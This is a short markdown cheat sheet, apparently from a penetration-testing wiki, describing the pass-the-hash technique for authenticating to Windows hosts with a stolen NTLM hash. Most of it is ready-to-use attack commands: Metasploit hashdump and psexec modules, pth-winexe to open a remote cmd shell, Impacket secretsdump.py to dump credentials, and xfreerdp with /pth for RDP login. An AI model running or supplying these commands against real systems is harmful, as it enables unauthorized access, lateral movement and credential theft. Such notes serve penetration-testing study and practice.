 # Pass the Hash
Pass the hash technique allow an attacker to authenticate to a remote system or service using a user' NTLM hash instead of plaintext password. It requires access to the special administrative share named Admin$, thus also local administrative rights. There many tools for performing a similar to legimate use of connecting with SMB. [[Metasploit]] has:
```bash
post/windows/gather/hashdump
exploit/windows/smb/psexec
```

Another method:
```bash
pth-winexe -U $username%$NT:$LM //$ip cmd
```

[[Impacket-Cheatsheet]] with:
```bash
secretsdump.py $user@$ip -hashes $hash
```

Or login with [[Evil-winrm-Cheatsheet]] using  `-H`  or  `xfreerdp` with:
```bash
xfreerdp /v:$IP /u:Administrator /pth:$Hash
```